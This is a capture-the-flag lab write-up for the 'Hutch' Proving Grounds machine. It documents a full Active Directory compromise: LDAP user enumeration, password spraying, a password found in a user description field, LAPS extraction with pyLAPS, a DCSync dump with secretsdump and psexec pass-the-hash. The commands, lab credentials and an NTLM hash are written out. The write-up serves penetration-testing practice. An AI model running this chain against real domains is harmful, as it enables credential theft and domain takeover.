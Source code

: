 # **HUTCH | PG Practice**

## **C.Rating : Hard**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/f18534d6-daa9-4345-9cc4-69548cdfceab)

***

Running our nmap scan to discover open ports we have:


```bash
# Nmap 7.94SVN scan initiated Thu Jun 13 09:55:09 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.214.122
Nmap scan report for 192.168.214.122
Host is up (0.15s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/10.0
|   WebDAV type: Unknown
|   Server Date: Thu, 13 Jun 2024 08:58:07 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-13 08:57:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-13T08:58:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 13 09:58:51 2024 -- 1 IP address (1 host up) scanned in 222.82 seconds
```


Checking port 80 we have a default IIS page

![](https://i.imgur.com/qzWtkMc.png)






Decided to run `enum4linux-ng` also for more enumeration


```bash
enum4linux-ng 192.168.214.122 -L -S -oJ hutch.json

# -L: Get additional info via LDAP/LDAPS
# -S: Get shares via RPC
# -oJ: Writes output to JSON file
```



![](https://i.imgur.com/9vVXGWK.png)


Domain : hutch.offsec | 
DC : HUTCHDC


Enumerating users via `ldapsearch` we have few users


```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


![](https://i.imgur.com/4y5clqt.png)



```
Guest
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```



We can also confirm that this users are valid using the `kerbrute` tool


```bash
kerbrute userenum --dc 192.168.214.122 -d hutch.offsec users.txt
```


![](https://i.imgur.com/5ac4Q3H.png)


Performing an ASREPRoasting attack, unfortunately no user has pre-authentication enabled


```bash
GetNPUsers.py hutch.offsec/ -usersfile users.txt -format hashcat -dc-ip 192.168.214.122
```


![](https://i.imgur.com/19LxHwc.png)


Tried to password spray

- Using the SMB protocol

```bash
crackmapexec smb 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/EVW8zBJ.png)


- Using the WINRM protocol

```bash
crackmapexec winrm 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/7YGbvds.png)



However password spraying with an empty password we have this `STATUS_ACCOUNT_DISABLED` message on the guest account



![](https://i.imgur.com/9epKINu.png)


Still couldn't do anything cos we need the administrator password to enable any account, However it took me hours to figure out that some users leave passwords in description, so the below command using `ldapsearch` helped 



```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=*))"  | grep description:
```


![](https://i.imgur.com/clUpkSP.png)



We found a password called `CrabSharkJellyfish192`, soooo i decided to password spray and we got a hit at user `fmcsorley`



```bash
netexec smb 192.168.214.122 -u users.txt -p "CrabSharkJellyfish192"
```



![](https://i.imgur.com/BHe29vS.png)


As my own **rule of thumb**, after valid creds i roll up `bloodhound-python` first to get more information on the domain


```bash
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns 192.168.214.122 -d hutch.offsec -c all
```



![](https://i.imgur.com/m6X2Wqr.png)



Also just so we don't miss anything let us check if this user has access to any shares


```bash
smbmap -H 192.168.214.122 -u fmcsorley -p CrabSharkJellyfish192
```



![](https://i.imgur.com/d4Dj05m.png)




However enumerating the shares i couldn't find anything valid so i  ran back to bloodhound, loaded my data and found out the user `fmcsorley` can read the **Local Administrator Password Solution** (LAPS) which **provides management of local account passwords of domain joined computers**.


![](https://i.imgur.com/Gg6lUsf.png)


To abuse this we can use the [pyLAPS](https://github.com/p0dalirius/pyLAPS) tool to retrieve credentials



```bash
./pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192" --dc-ip 192.168.214.122
```



![](https://i.imgur.com/jDxoPEq.png)


Now let see if this password works for the administrator user, hehe


```bash
netexec smb 192.168.198.122 -u administrator -p "{2[i2Nae6IjQDF" -d hutch.offsec
```


![](https://i.imgur.com/k3ALru1.png)


> I am so sorry the password above is different same as the IP, the lab got stopped and all things where rotated



We have a hit on the administrator and it looks like we are domain admin, we can still take a step further and perform the DCSync attack to replicate the DC and dump all users hash


```bash
secretsdump.py 'hutch.offsec'/'administrator'@192.168.198.122                
# Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies      
                                                                                                                                                                                             
# Password:
```



![](https://i.imgur.com/7Itac4o.png)


Then pass-the-hash for the admin user and get all flags


```bash
psexec.py administrator@192.168.198.122 -hashes aad3b435b51404eeaad3b435b51404ee:0ae9bb132b0b7c3722b7ba682d966e7a
```



![](https://i.imgur.com/9GGwfBp.png)


## What did I learn ?


- First of, I need to start building a methodology for attacking AD, Point is, i missed the **"password in description"**, took me hours to figure it out and finally got it from a friend, this same thing also happened in **Dante**, THE LITTLE THINGS MATTER
- Secondly this lab was quite easy and straight forward BTW, cos' it is AD, hehe, soooo start learning **active directory penetration testing**!



Have fun 🤤


![](https://i.pinimg.com/originals/ca/26/2e/ca262e0354eea311c41134c3e4bc3bc2.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
